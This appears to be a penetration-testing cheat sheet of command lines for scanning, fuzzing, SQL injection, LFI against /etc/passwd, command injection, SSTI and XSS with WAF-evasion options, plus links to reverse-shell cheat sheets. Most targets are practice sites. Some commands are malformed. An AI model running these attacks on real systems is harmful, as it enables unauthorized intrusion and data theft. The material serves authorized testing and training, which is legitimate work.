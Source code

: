 ## **Scan**
`nmap IP -sS -p- -Pn --min-rate 99999 --scan-delay 0 --version-all  --osscan-guess --script=vuln  -system-dns IP`

## **Crawl**
`echo "http://testphp.vulnweb.com/"| hackrawler`

`gospider -s “http://testphp.vulnweb.com/”[-cookie testA=a testB=b | --burp request.txt| -S urls.txt]  -d 4 -t 50 -c 50 |grep '\[code-200\]' | cut -d ' ' -f 5`


## **Screenshots**
`cat rest.txt | aquatone -out screenss2 -scan-timeout 450 -threads 100 -screenshot-timeout 500000`




## **Word press**
`wpscan --url http://site.com -t 90 --random-user-agent --detection-mode aggressive -e at,ap,cd,dbe,u,m --headers 'X-Forwarded-For: 127.0.0.1' --plugins-detection aggressive --plugins-version-detection aggressive --wp-version-all -o wpascan.txt`


## **Directory Fuzzing**
`wfuzz -c -w home/kali/THM/CTF/HappyEnd/DIR.txt  -u  http://example.com//FUZZ -d '{"name": "FUZZ", "anotherkey": "anothervalue"}'  -H  "Content-Type: application/json" \ -b  "NAME1=VALUE1; NAME2=VALUE2"  -R 1 -D 1 -t 99 --hc 404`



`ffuf [-u https://target.site.com/FUZZ | -raw raw.txt ] -p .01 -recursion-depth 1 -ac  -x proxy -X POST -d '{"name": "FUZZ", "anotherkey": "anothervalue"}'  -H  "Content-Type: application/json" \ -b  "NAME1=VALUE1; NAME2=VALUE2"   -w /home/kali/THM/CTF/HappyEnd/DIR.txt  -c   -t 99 -rate 300  -e .asp,.aspx,.jhtml,.jsa,.jsp,.log,.php,.html,.db,.sql,.txt,.cgi,.inc,.xml,~,,/`

```bash 
  ffuf [-u https://target.site.com/FUZZ | -raw raw.txt ] -p .01 -recursion-depth 1 -ac  -x proxy -X POST -d '{"name": "FUZZ", "anotherkey": "anothervalue"}'  -H  "Content-Type: application/json" \ -b  "NAME1=VALUE1; NAME2=VALUE2"   -w /home/kali/THM/CTF/HappyEnd/DIR.txt  -c   -t 99 -rate 300  -e .asp,.aspx,.jhtml,.jsa,.jsp,.log,.php,.html,.db,.sql,.txt,.cgi,.inc,.xml,~,,/
  -fc 404
  -ft                 Filter by number of milliseconds to the first response byte, either greater or less than. EG: >100 or <100
  -fs                 Filter HTTP response size. Comma separated list of sizes and ranges            
  -of                 Output file format. Available formats: json, ejson, html, md, csv, ecsv (or, 'all' for all formats) (default: json)
```

## **Parameter Fuzz**
`arjun -i urls.txt -t 90 -oT getparams.txt  -w paramswordlist.txt -m GET  --stable  --disable-redirects --hraders "Accept-Language: en-US\nCookie: null"`


`arjun -i urls.txt -t 90 -oT postparams.txt -w paramswordlist.txt -m POST  --stable  --disable-redirects --hraders "Accept-Language: en-US\nCookie: null"`


`ffuf -w params.txt -u http://ffuf.me/cd/param/data?FUZZ=1 p .01 - -ac  -x proxy   -H  "Content-Type: application/json" \ -b  "NAME1=VALUE1; NAME2=VALUE2"   -c  -s -t 99 -rate 660 `


`ffuf -raw req.txt -w params.txt -c true -s -t 99 -rate 660 [in request param=FUZZ]`



## **VHOST Fuzzing**
`wfuzz -c -w subdomains.txt --hc 400,404,403 -H "Host: FUZZ.example.com" -u http://example.com -t 100`


## **Payload Fuzzing**
`ffuf -w payloads.txt [-u http://ffuf.me/cd/param/data?Param=Fuzz| -raw req.txt ] -ac -X POST -d '{"name": "FUZZ", "anotherkey": "anothervalue"}'  -H  "Content-Type: application/json" \ -b  "NAME1=VALUE1; NAME2=VALUE2"   -w /home/kali/THM/CTF/allattacks.txt  -c   -t 99 -rate 300  c true -s -t 99 -rate 660  `


`wfuzz  -w allattacks.txt --hc 404'http://example.com/path?Param=FUZZ' -d '{"name": "FUZZ", "anotherkey": "anothervalue"}'  -H  "Content-Type: application/json" \ -b  "NAME1=VALUE1; NAME2=VALUE2"   -c -t 99 -hc 404`



## **parameter analysis**

`cat urls.txt |gf cors debug-pages debug_logic    http-auth idor img-traversal lfi  php-errors php-serialized php-sources  rce  sqli ssrf ssti upload-fields`

 


## **SQL Injection**
`sqlmap -u "http://testphp.vulnweb.com/listproducts.php?artist=sa"  --random-agent --threads=10 --risk 2 --level 5  --technique=ETS --batch --tamper=xforwardedfor,space2comment,randomcase,symboliclogical,between,greatest,least   --dbms=mysql -b`


## **LFI**

`dotdotpwn -m http-url -e %00.png -f /etc/passwd -M GET -d 7 -t 1 -u http://s2bmm.smart-made.com/xvwa/vulnerabilities/fi/?file=TRAVERSAL -k "/usr/sbin/nologin" -b`
`dotdotpwn -m http-url  -f /etc/passwd -M GET -d 7 -t 1 -u "http://s2bmm.smart-made.com/xvwa/vulnerabilities/fi/?file=TRAVERSAL" -k "/usr/sbin/nologin" -b` 


  

## **RCE** 

### OS Command  Injection
`commix -r /home/kali/Desktop/OSRH.txt --batch  --random-agent --hostname --level 2 --tamper=dollaratsigns,printf2echo,xforwardedfor,space2ifs`  

### SSTI

`./tinja url -u "http://s2bmm.smart-made.com/xvwa/vulnerabilities/ssti/?name=asd&submit="-d -H -H "Authentication: Bearer "  -d "username=Kirlia&password=notguessable" -c "PHPSESSID=ABC123" --proxyurl http://127.0.0.1:8080`
###  PHP shells

## **XSS**
`dalfox url http://target.com -X -d -H --cookie-from-raw req.txt   [--custom-payload | --remote-payloads=portswigger,payloadbox | --custom-payload xss.txt] [--mining-dict  | --remote-wordlists=burp,assetnote |--mining-dict-word param.txt | -p param ] --waf-evasion --report --poc-type http-request -o result.txt `


`dalfox file --rawdata   req.txt [--custom-payload | --remote-payloads=portswigger,payloadbox | --custom-payload xss.txt] [--mining-dict  | --remote-wordlists=burp,assetnote |--mining-dict-word param.txt | -p param ] --waf-evasion --report --poc-type http-request -o result.txt `


## **REV Shells**
  https://gtfobins.github.io/gtfobins/nano/
  https://www.revshells.com/
  https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet
  








 





